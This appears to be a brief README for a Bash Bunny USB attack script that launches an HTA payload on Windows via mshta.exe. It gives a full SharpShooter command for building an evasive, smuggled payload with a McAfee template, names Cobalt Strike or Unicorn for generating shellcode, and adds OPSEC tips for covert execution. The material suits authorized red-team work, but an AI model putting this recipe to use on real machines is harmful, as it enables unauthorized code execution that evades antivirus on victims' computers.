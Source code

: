 ## bash bunny script for executing an HTA payload on x64 and x86 machines

1) Create the HTA payload using Cobalt Strike / Unicorn whatever and SharpShooter for evasion

```python SharpShooter.py  --dotnetver 2  --payload hta --rawscfile payload.bin --smuggle --output payload --template mcafee --stageless```

2) Place the script and the payload.hta in either the Switch1 or Switch2 folder of the Bash Bunny


### OPSEC considerations

- The script will attempt to run the HTA file twice. Once for x64 and once for x86
- the script uses mshta.exe. Adjust it according to your situation
- The PS window will remain open when typing the command
